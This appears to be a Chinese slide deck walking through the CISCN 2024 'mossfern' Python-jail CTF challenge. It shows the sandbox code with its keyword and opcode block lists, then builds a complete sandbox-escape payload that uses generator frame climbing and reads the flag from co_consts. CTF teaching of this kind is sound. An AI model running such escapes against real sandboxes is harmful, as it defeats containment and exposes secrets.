  <!-- Center: Flow 3 -->
  <div class="flex flex-col items-center justify-center relative h-full">
    <!-- Horizontal Line -->
    <div class="absolute w-[80%] right-0 h-[2px] bg-gray-300 dark:bg-gray-600 -z-10"></div>
    <div class="w-8 h-8 rounded-full bg-slate-600 text-white flex items-center justify-center font-bold z-10 ring-4 ring-white dark:ring-[#121212]">3</div>
  </div>

  <!-- Right: Response -->
  <div>
    <div class="font-bold mb-1 text-sm">预期响应</div>
    <ul class="list-disc pl-4 space-y-1 text-gray-700 dark:text-gray-300">
      <li>一个 HTML 页面，列出服务器根目录的文件和文件夹。</li>
      <li>找到 flag 文件名 & 成功下载 flag 文件。</li>
    </ul>
  </div>

</div>

---
layout: center
transition: fade-out
---

# CISCN 2024 mossfern

Tags: <Tag color="green">Python Jail</Tag>

<style>
h1 {
  background-color: #2B90B6;
  background-image: linear-gradient(45deg, #4EC5D4 10%, #146b8c 20%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent;
  -moz-text-fill-color: transparent;
}
</style>

---

## 题目源码

```python {all}{lines:true, maxHeight:'90%'}
def source_simple_check(source):
    """
    Check the source with pure string in string, prevent dangerous strings
    :param source: source code
    :return: None
    """

    from sys import exit
    from builtins import print

    try:
        source.encode("ascii")
    except UnicodeEncodeError:
        print("non-ascii is not permitted")
        exit()

    for i in ["__", "getattr", "exit"]:
        if i in source.lower():
            print(i)
            exit()


def block_wrapper():
    """
    Check the run process with sys.audithook, no dangerous operations should be conduct
    :return: None
    """

    def audit(event, args):

        from builtins import str, print
        import os

        for i in ["marshal", "__new__", "process", "os", "sys", "interpreter", "cpython", "open", "compile", "gc"]:
            if i in (event + "".join(str(s) for s in args)).lower():
                print(i)
                os._exit(1)
    return audit


def source_opcode_checker(code):
    """
    Check the source in the bytecode aspect, no methods and globals should be load
    :param code: source code
    :return: None
    """

    from dis import dis
    from builtins import str
    from io import StringIO
    from sys import exit

    opcodeIO = StringIO()
    dis(code, file=opcodeIO)
    opcode = opcodeIO.getvalue().split("\n")
    opcodeIO.close()
    for line in opcode:
        if any(x in str(line) for x in ["LOAD_GLOBAL", "IMPORT_NAME", "LOAD_METHOD"]):
            if any(x in str(line) for x in ["randint", "randrange", "print", "seed"]):
                break
            print("".join([x for x in ["LOAD_GLOBAL", "IMPORT_NAME", "LOAD_METHOD"] if x in str(line)]))
            exit()


if __name__ == "__main__":

    from builtins import open
    from sys import addaudithook
    from contextlib import redirect_stdout
    from random import randint, randrange, seed
    from io import StringIO
    from random import seed
    from time import time

    source = open(f"/app/uploads/THIS_IS_TASK_RANDOM_ID.txt", "r").read()
    source_simple_check(source)
    source_opcode_checker(source)
    code = compile(source, "<sandbox>", "exec")
    addaudithook(block_wrapper())
    outputIO = StringIO()
    with redirect_stdout(outputIO):
        seed(str(time()) + "THIS_IS_SEED" + str(time()))
        exec(code, {
            "__builtins__": None,
            "randint": randint,
            "randrange": randrange,
            "seed": seed,
            "print": print
        }, None)
    output = outputIO.getvalue()

    if "THIS_IS_SEED" in output:
        print("这 runtime 你就嘎嘎写吧， 一写一个不吱声啊，点儿都没拦住！")
        print("bad code-operation why still happened ah?")
    else:
        print(output)
```

---
layout: two-cols
---

## 根本性缺陷：“玻璃沙箱”

任何试图固在 Python 语言层面实现的沙箱，其本质都如同一个“玻璃沙箱”。它的边界看似清晰，但内部的连接性使其不堪一击。

- **万物皆对象**: 在 Python 中，从整数到函数，一切都是对象。
- **固有的连接性**: 每个对象都通过 `__class__`, `__base__`, `__subclasses__` 等“双下划线”属性连接到一个庞大的、可遍历的对象层级结构中。
- **无法实现的封装**: Python 的对象模型没有真正的私有属性或强制封装。这意味着，只要能获得任何一个对象，理论上就可以顺着对象图谱遍历到 Python 解释器的几乎任何部分。

<div class="bg-orange-50 dark:bg-orange-900/10 border-l-4 border-orange-500 p-3 text-sm text-gray-700 dark:text-gray-300">
防御的重点在于限制「能做什么」，但攻击者利用的是「能访问到什么」。这种固有的可访问性，使得单纯的范围限制形同虚设。
</div>

::right::

<div class="flex items-center justify-center h-full scale-125">



</div>

---

## Step 1: 源码分析

<div class="overflow-hidden border border-gray-200 dark:border-gray-700 rounded-lg shadow-sm mt-8">
  <table class="w-full text-sm">
    <thead class="bg-gray-50 dark:bg-gray-800 text-gray-900 dark:text-gray-100 font-bold">
      <tr>
        <th class="p-4 text-left border-b dark:border-gray-700 w-1/4">防御层</th>
        <th class="p-4 text-left border-b dark:border-gray-700 w-1/3">精确限制</th>
        <th class="p-4 text-left border-b dark:border-gray-700">攻击者视角</th>
      </tr>
    </thead>
    <tbody class="divide-y divide-gray-200 dark:divide-gray-700 bg-white dark:bg-gray-900">
      <!-- Layer 1 -->
      <tr class="hover:bg-gray-50 dark:hover:bg-gray-800/50">
        <td class="p-4 flex items-center gap-3">
          <div class="p-2 bg-blue-100 dark:bg-blue-900/30 rounded-lg text-blue-600 dark:text-blue-400">
            <div class="i-carbon-code text-xl" />
          </div>
          <div>
            <div class="font-bold text-gray-900 dark:text-gray-100">源码层</div>
          </div>
        </td>
        <td class="p-4 font-mono text-xs text-red-600 dark:text-red-400">
          ["__", "getattr", "exit"]<br>
          <span class="text-gray-500 text-[10px]">(不区分大小写)</span>
        </td>
        <td class="p-4 text-gray-600 dark:text-gray-300">
          必须避免使用双下划线方法和 <code>getattr</code>，常规对象属性访问受阻。
        </td>
      </tr>
      <!-- Layer 2 -->
      <tr class="hover:bg-gray-50 dark:hover:bg-gray-800/50">
        <td class="p-4 flex items-center gap-3">
          <div class="p-2 bg-orange-100 dark:bg-orange-900/30 rounded-lg text-orange-600 dark:text-orange-400">
            <div class="i-carbon-hearing text-xl" />
          </div>
          <div>
            <div class="font-bold text-gray-900 dark:text-gray-100">运行时</div>
          </div>
        </td>
        <td class="p-4 font-mono text-xs text-red-600 dark:text-red-400 break-all">
          ["process", "os", "sys", "open", "compile"]
        </td>
        <td class="p-4 text-gray-600 dark:text-gray-300">
          任何直接或间接触发这些事件的行为都会导致程序终止。传统 <code>os.system</code> 被封死。
        </td>
      </tr>
      <!-- Layer 3 -->
      <tr class="hover:bg-gray-50 dark:hover:bg-gray-800/50">
        <td class="p-4 flex items-center gap-3">
          <div class="p-2 bg-purple-100 dark:bg-purple-900/30 rounded-lg text-purple-600 dark:text-purple-400">
            <div class="i-carbon-matrix text-xl" />
          </div>
          <div>
            <div class="font-bold text-gray-900 dark:text-gray-100">字节码层</div>
          </div>
        </td>
        <td class="p-4 font-mono text-xs text-red-600 dark:text-red-400">
          禁止 `LOAD_GLOBAL`, `IMPORT_NAME`, `LOAD_METHOD`
        </td>
        <td class="p-4 text-gray-600 dark:text-gray-300">
          无法导入模块或访问全局变量。<br>
          <span class="text-yellow-600 dark:text-yellow-400 font-bold">关键线索</span>: 检查器逻辑中存在一个 <code>break</code> 语句，这是一个潜在的逻辑捷径。
        </td>
      </tr>
      <!-- Layer 4 -->
      <tr class="hover:bg-gray-50 dark:hover:bg-gray-800/50">
        <td class="p-4 flex items-center gap-3">
          <div class="p-2 bg-teal-100 dark:bg-teal-900/30 rounded-lg text-teal-600 dark:text-teal-400">
            <div class="i-carbon-layers text-xl" />
          </div>
          <div>
            <div class="font-bold text-gray-900 dark:text-gray-100">执行环境</div>
          </div>
        </td>
        <td class="p-4 font-mono text-xs text-red-600 dark:text-red-400">
          `__builtins__` 为 `None`
        </td>
        <td class="p-4 text-gray-600 dark:text-gray-300">
          失去了所有标准库函数，如 <code>open</code>, <code>__import__</code> 等。
        </td>
      </tr>
    </tbody>
  </table>
</div>

---
layout: two-cols-header
---

## Step 2：分析逻辑路径

`source_opcode_checker` 的逻辑存在一个潜在的逻辑捷径。

```python {all|4}{lines:true}
for line in opcode:
    if any(x in str(line) for x in ["LOAD_GLOBAL", "IMPORT_NAME", "LOAD_METHOD"]):
        if any(x in str(line) for x in ["randint", "randrange", "print", "seed"]):
            break
        print("".join([x for x in ["LOAD_GLOBAL", "IMPORT_NAME", "LOAD_METHOD"] if x in str(line)]))
        exit()
```

这里 `break` 成为了一个短路逻辑：只要存在一个白名单内的操作，就会立即退出循环，不会检查后续的行。

```python {all|4}{lines:true}
try:
    random.randint(0, 100)
except:
    print("bytecode jail bypassed!")
```

---
layout: two-cols-header
---

## Step3: 恢复 `__builtins__`

字节码检查已被绕过，但 `__builtins__` 仍为 `None`。我们无法调用 `open`, `__import__` 等任何标准函数。

::left::

### 对象层级遍历

**原理**: 从一个当前作用域内可用的简单对象（如 `""`, `()`, `{}`）出发，沿着对象继承链向上回溯到顶层的 `object` 类，再向下遍历其所有子类，从而找到并使用被“隐藏”的强大模块和类。

<div class="flex flex-col items-center mt-8">
    <div class="flex items-center gap-2 mb-2">
      <div class="i-carbon-earth text-4xl text-blue-600" />
      <span class="font-bold text-xl">object</span>
    </div>
    <!-- Arrow down -->
    <div class="relative w-full max-w-[300px] h-32">
        <svg class="absolute inset-0 w-full h-full" style="overflow: visible;">
             <!-- Main arrow from object to tuple -->
             <path d="M 150 0 L 80 80" fill="none" stroke="#2563EB" stroke-width="2" marker-end="url(#arrow-blue)" />
             <!-- Arrow from object to os -->
             <path d="M 150 0 L 150 80" fill="none" stroke="#2563EB" stroke-width="2" marker-end="url(#arrow-blue)" />
             <!-- Arrow from object to sys -->
             <path d="M 150 0 L 220 80" fill="none" stroke="#2563EB" stroke-width="2" marker-end="url(#arrow-blue)" />
             <!-- Definitions -->
             <defs>
                <marker id="arrow-blue" markerWidth="6" markerHeight="6" refX="5" refY="3" orient="auto" markerUnits="strokeWidth">
                  <path d="M0,0 L0,6 L5,3 z" fill="#2563EB" />
                </marker>
             </defs>
        </svg>
        <!-- Tuple Node -->
        <div class="absolute left-[50px] top-[80px] flex flex-col items-center">
             <div class="border-2 border-blue-500 rounded px-2 py-1 bg-white dark:bg-gray-800 text-sm font-mono">tuple</div>
             <!-- Up arrow from () -->
             <div class="flex flex-col items-center mt-2">
                 <div class="i-carbon-arrow-up text-gray-400" />
                 <span class="text-xs font-mono">()</span>
             </div>
        </div>
        <!-- OS Node -->
        <div class="absolute left-[130px] top-[80px] flex flex-col items-center">
             <div class="i-carbon-settings text-2xl text-blue-600" />
             <span class="text-sm font-mono">os</span>
        </div>
         <!-- Sys Node -->
        <div class="absolute left-[200px] top-[80px] flex flex-col items-center">
             <div class="i-carbon-chip text-2xl text-blue-600" />
             <span class="text-sm font-mono">sys</span>
        </div>
    </div>
    <div class="w-full max-w-[300px] mt-4 flex justify-between text-xs text-gray-500 font-mono">
        <span>__class__</span>
        <span>__base__</span>
        <span>__subclasses__()</span>
    </div>
</div>

::right::

### 2. 栈帧回溯 (Frame Climbing)

**原理**: 利用函数调用栈 (Call Stack) 的结构。通过访问当前执行帧 (Frame) 的 `f_back` 属性，可以回溯到调用者的帧，从而访问其局部变量、全局变量，甚至是代码对象。

<div class="flex flex-col gap-2  ml-8 relative max-w-[300px]">
    <!-- Current Frame -->
    <div class="bg-blue-50 dark:bg-blue-900/20 border-2 border-blue-200 dark:border-blue-800 rounded p-3 flex items-center gap-3 relative z-10">
        <div class="i-carbon-touch-1 text-2xl text-blue-600" />
        <span class="font-mono font-bold">current_frame</span>
    </div>
    <!-- Arrow Up 1 -->
    <div class="absolute right-[-30px] top-[25px] h-[75px] w-[20px] border-r-2 border-orange-400 rounded-r-lg" style="border-top: 2px solid #fb923c; border-bottom: 0;"></div>
    <div class="absolute right-[-60px] top-[20px] text-xs font-mono text-orange-500 bg-white dark:bg-[#121212] px-1">f_back</div>
    <!-- Arrow Head -->
    <div class="absolute right-[292px] top-[95px] w-0 h-0 border-t-[6px] border-t-transparent border-b-[6px] border-b-transparent border-r-[8px] border-r-orange-400"></div>
    <!-- Exec Frame -->
    <div class="bg-blue-100 dark:bg-blue-900/40 border-2 border-blue-300 dark:border-blue-700 rounded p-3 flex items-center gap-3 relative z-10 mt-6">
        <div class="i-carbon-settings-check text-2xl text-blue-700" />
        <span class="font-mono font-bold">exec_frame</span>
    </div>
    <!-- Arrow Up 2 -->
    <div class="absolute right-[-30px] top-[115px] h-[75px] w-[20px] border-r-2 border-orange-400 rounded-r-lg" style="border-top: 2px solid #fb923c; border-bottom: 0;"></div>
    <div class="absolute right-[-60px] top-[110px] text-xs font-mono text-orange-500 bg-white dark:bg-[#121212] px-1">f_back</div>
    <!-- Caller Frame -->
    <div class="bg-blue-200 dark:bg-blue-900/60 border-2 border-blue-400 dark:border-blue-600 rounded p-3 flex items-center gap-3 relative z-10 mt-6">
        <div class="i-carbon-user-identification text-2xl text-blue-800" />
        <span class="font-mono font-bold">caller_frame</span>
    </div>
</div>

---
layout: two-cols-header
---

## 利用生成器进行栈帧回溯

- Why Generators?
  - 当一个生成器被执行并暂停时（如通过 `yield`），它的执行状态被保存在一个帧对象中，即 `gi_frame`。
  - 关键在于，这个 `gi_frame` 的 `f_back` 属性（指向其调用者）是存在的且非 `None`。这为我们提供了回溯的起点。

::left::

Payload Core Code

```python {all|1-8|9-13|15-18|all}{lines:true, maxHeight:'60%'}
g = None
def gen_access():
    global g
    yield 1 # 暂停点
    f = g.gi_frame
    # 向上回溯两层，到达 runner 的帧
    if f.f_back and f.f_back.f_back:
        runner_frame = f.f_back.f_back
        # ... 在这里访问 runner_frame ...

g = gen_access()
g.send(None) # 启动生成器
g.send(None) # 从 yield 恢复，执行帧回溯
```

::right::

<div class="flex flex-col items-center justify-center h-full">



<div class="flex items-center gap-2 text-amber-600 dark:text-amber-500 font-bold mt-4">
    <div class="i-carbon-checkmark-outline text-xl"></div>
    <span>成功“越狱”到沙箱之外</span>
</div>

</div>

---
layout: two-cols-header
---

## 从代码常量中直接提取 Flag

- A Smarter Idea
  - 我们已经可以访问 `runner.py` 的帧 (`runner_frame`)。
  - 虽然可以通过 `runner_frame.f_builtins` 恢复完整的 `__builtins__`，但这可能会触发审计钩子。
  - 有没有一种方法，不需要恢复 builtins，也不需要调用任何敏感函数，就能拿到 Flag？

::left::

- 每个帧对象都有一个 `f_code` 属性，它指向该帧对应的代码对象。
- 代码对象中有一个 `co_consts` 属性，它是一个元组，包含了该代码块中使用的所有常量。

在 `runner.py` 中，Flag 字符串被硬编码到源码中，因此必然存在于主程序帧的 `f_code.co_consts` 中！

```python
# (续上页)
consts = f.f_back.f_back.f_code.co_consts
for c in consts:
    # c 就是常量池中的一个常量，其中一个就是 Flag
    # ... 接下来要想办法把它打印出来 ...
```

::right::

<div class="flex flex-col items-center justify-center h-full scale-60">



<div class="flex justify-end w-full mt-2 pr-8 text-sm font-bold text-amber-600">
    <div class="i-carbon-arrow-up text-xl animate-bounce mr-2"></div>
    目标 Flag (Target Flag)
</div>

</div>

---
layout: two-cols-header
---

## Step 4: 绕过输出审查

- `runner.py` 的代码会检查输出内容，如果包含原始的 Flag 字符串，则会屏蔽输出。

<div class="bg-gray-100 dark:bg-gray-800 p-2 rounded border border-gray-200 dark:border-gray-700 text-sm font-mono mt-2">
  if "THIS_IS_SEED" in output:<br/>
  &nbsp;&nbsp;print("bad code-operation ...")<br/>
  else:<br/>
  &nbsp;&nbsp;print(output)
</div>

在 **Payload** 阶段，我们通过 `co_consts` 获取到了 Flag 字符串，但直接打印会被拦截。

::left::

```python
# (续上页)
# 对数据进行编码或变换，使其在输出时不匹配原始 Flag 字符串。
consts = f.f_back.f_back.f_code.co_consts
for c in consts:
    try:
        # 尝试反转并打印，用 REV:: 作为标记
        print("REV::" + c[::-1])
    except:
        pass # 忽略非字符串常量
```

::right::

<div class="flex flex-col items-center justify-center h-full gap-4 scale-70">

<div class="text-sm text-gray-600 dark:text-gray-400">
  反转一个反转，将得到的字符串发出：
</div>

<div class="w-full bg-[#1e1e1e] text-white p-3 rounded-lg shadow-lg font-mono text-sm relative">
  <div class="flex gap-1.5 absolute top-3 left-3">
    <div class="w-2.5 h-2.5 rounded-full bg-[#ff5f56]"></div>
    <div class="w-2.5 h-2.5 rounded-full bg-[#ffbd2e]"></div>
    <div class="w-2.5 h-2.5 rounded-full bg-[#27c93f]"></div>
  </div>
  <div class="mt-4 pt-2 break-all font-mono">
    > REV::}6ef5aea0dbb4-2619-0314-8c1d-b64260ae{galf
  </div>
</div>

<div class="flex flex-col items-center">
    <div class="i-carbon-arrow-down text-4xl text-orange-500 animate-bounce"></div>
    <span class="text-xs font-bold text-gray-500">本地反转</span>
</div>

<div class="bg-orange-100 dark:bg-orange-900/30 border border-orange-300 dark:border-orange-700 text-orange-800 dark:text-orange-200 px-4 py-2 rounded font-mono font-bold text-center w-full break-all">
  flag{ea06246b-d1c8-4130-9162-4bbd0aea5fe6}
</div>

</div>

---

## 完整 Payload

```python
try:
    # 1) Break opcode checker: LOAD_METHOD + "randint" on one line.
    random.randint()
except:
    print("bytecode jail bypassed!")
g = None
def gen_access():
    global g
    yield 1
    f = g.gi_frame
    if f.f_back and f.f_back.f_back:
        consts = f.f_back.f_back.f_code.co_consts
        for c in consts:
            try:
                print("REV::" + c[::-1])
            except:
                pass
g = gen_access()
g.send(None) # start
try:
    g.send(None) # resume: executes frame walk + exfil
except:
    pass
```

---

## Python Jail 学习资料

- [PyJails in the Wild Bringing CTF Challenges to the Real World](https://docs.google.com/presentation/d/1WXK1CbY4krkzmQFu_xxQ2PqgSyFSC7vWvh6PEY0tEyk/)
- [Bypass Python sandboxes - HackTricks](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/python/bypass-python-sandboxes/index.html)
